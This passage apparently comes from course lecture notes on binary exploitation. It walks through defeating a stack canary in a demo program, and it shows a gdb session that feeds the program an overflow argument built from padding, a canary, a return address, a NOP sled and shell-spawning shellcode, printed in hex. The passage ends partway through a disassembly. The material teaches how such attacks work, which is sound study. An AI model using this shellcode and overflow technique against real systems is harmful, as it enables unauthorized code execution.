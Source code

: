 ``` {.example}
0x48: nop
0x4c: nop
0x50: nop
0x54: nop
0x58: nop
0x5c: nop
0x60: nop
0x64: nop
0x68: shel
0x6c: shel
0x70: shel
0x74: shel
0x78: shel
 *** stack smashing detected ***: ./hex_to_char terminated
Aborted (core dumped)
```

The exploit is we first do some padding, then the canary, then more
padding, the return address, nops, the shell code. Easy, right? Let's
see how we can do this in gdb.

Defeating a Canary in GDB
-------------------------

The first thing we need is to set up our shell code:

``` {.example}
user@si485H-base:demo$ echo $(printf `./hexify.sh smallest_shell` | ./le-fourbytes.py - | tr "\n" " ")
0xe1f7c931 0x2f6e6850 0x2f686873 0x8969622f 0xcd0bb0e3 0x90909080
```

Then we need to run under gdb with the right padding and everything, we
can start gdb, execute with those arguments, and break in foo to learn
the canary value:

``` {.example}


```

Ok, so now that we now our canary value and where to jump, let's restart
the program with those values:

``` {.example}
(gdb) br foo
Breakpoint 1 at 0x80484cb: file hex_to_char.c, line 5.
(gdb) r `python -c "print '0x41414141 '*10 + '0xcafebabe ' + '0x41414141 '*3 +'0xdeadbeef ' + '0x90909090 '*10 + '0xe1f7c931 0x2f6e6850 0x2f686873 0x8969622f 0xcd0bb0e3 0x90909080'"`

Starting program: /home/user/git/si485-binary-exploits/lec/18/demo/hex_to_char `python -c "print '0x41414141 '*10 + '0xcafebabe ' + '0x41414141 '*3 +'0xdeadbeef ' + '0x90909090 '*10 + '0xe1f7c931 0x2f6e6850 0x2f686873 0x8969622f 0xcd0bb0e3 0x90909080'"`
Breakpoint 1, foo (args=0xbffff548) at hex_to_char.c:5
5   void foo( char ** args){
(gdb)ds
Dump of assembler code for function foo:
   0x080484bd <+0>: push   ebp
   0x080484be <+1>: mov    ebp,esp
   0x080484c0 <+3>: push   esi
   0x080484c1 <+4>: push   ebx
   0x080484c2 <+5>: sub    esp,0x60
   0x080484c5 <+8>: mov    eax,DWORD PTR [ebp+0x8]
   0x080484c8 <+11>:    mov    DWORD PTR [ebp-0x4c],eax
=> 0x080484cb <+14>:    mov    eax,gs:0x14
   0x080484d1 <+20>:    mov    DWORD PTR [ebp-0xc],eax
   0x080484d4 <+23>:    xor    eax,eax
```